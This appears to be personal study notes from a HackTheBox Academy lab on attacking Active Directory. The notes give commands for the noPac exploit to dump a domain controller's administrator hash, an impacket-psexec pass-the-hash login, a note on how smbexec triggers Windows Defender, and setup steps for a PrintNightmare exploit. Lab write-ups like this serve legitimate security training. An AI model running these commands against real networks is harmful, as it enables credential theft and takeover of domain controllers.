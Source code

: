 ```shell-session
AhmaDb0x@htb[/htb]$ sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 --impersonate administrator -use-ldap -dump -just-dc-user INLANEFREIGHT/administrator
```

```bash
AhmaDb0x@htb[/htb]$ impacket-psexec inlanefreight.local/administrator@172.16.5.5 -hashes aad3b435b51404eeaad3b435b51404ee:88ad09182de639ccc6579eb0849751cf

```
## Windows Defender & SMBEXEC.py Considerations

If Windows Defender (or another AV or EDR product) is enabled on a target, our shell session may be established, but issuing any commands will likely fail. The first thing smbexec.py does is create a service called `BTOBTO`. Another service called `BTOBO` is created, and any command we type is sent to the target over SMB inside a .bat file called `execute.bat`. With each new command we type, a new batch script is created and echoed to a temporary file that executes said script and deletes it from the system. Let's look at a Windows Defender log to see what behavior was considered malicious.


![image](https://academy.hackthebox.com/storage/modules/143/defenderLog.png)


---
------
---
---
----
---

## PrintNightmare

The **Print Spooler** service is a Windows service that manages the **printing process** by handling print jobs sent from applications to a printer. It queues print jobs, schedules them for printing, and communicates with the printer driver.



#### *goal == gain a SYSTEM shell session on a Domain Controller running on a Windows Server 2019 host.*

#### Cloning the Exploit
```shell-session
AhmaDb0x@htb[/htb]$ git clone https://github.com/cube0x0/CVE-2021-1675.git
```

```shell-session
pip3 uninstall impacket
git clone https://github.com/cube0x0/impacket
cd impacket
python3 ./setup.py install
```

